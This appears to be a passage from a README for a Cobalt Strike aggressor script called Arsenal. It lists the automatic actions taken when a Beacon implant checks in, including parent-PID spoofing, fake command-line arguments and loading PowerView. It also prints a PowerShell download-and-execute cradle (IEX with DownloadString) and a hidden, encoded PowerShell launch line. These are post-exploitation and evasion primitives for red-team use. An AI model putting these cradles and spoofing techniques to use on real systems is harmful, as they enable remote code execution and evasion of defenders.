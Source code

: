 
### 2. When a new Beacon checks in - here's what happens

Every below behaviour is controlled via Arsenal's settings, deciding whether these actions should be run. Therefore its possible to turn all of them off.

![Beacon's initial actions](img/arsenal4.png)

   1. Current working directory and domain name are printed to accomodate initial Beacon's cwd & domain 
       tracked values.
   2. autoppid alias kicks in to spoof Parent PID of Beacon's future post-ex jobs
   3. If _"Preset argue..."_ option was set, we setup a predefined "argue" fake command lines for: 
       powershell, net, cmd
   4. User defined in _"Beacon Initial Actions Setup"_ automated actions are executed.
   5. User defined in _"Beacon Initial Actions Setup"_ automated argue commands are executed.
   6. Lastly, PowerView.ps1 will be imported using `import-powerview` alias.


---

### 3. Customized Powershell Command & Download Cradle:

This script introduces several different methods for Powershell download and execution primitives, other
than `(Net.WebClient).DownloadString` and `IEX()`:

```
   set POWERSHELL_DOWNLOAD_CRADLE {
       return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
   }
   [...]

   set POWERSHELL_COMMAND {
   [...]
       return "powershell -nop -w hidden -encodedcommand $script";
   }
```

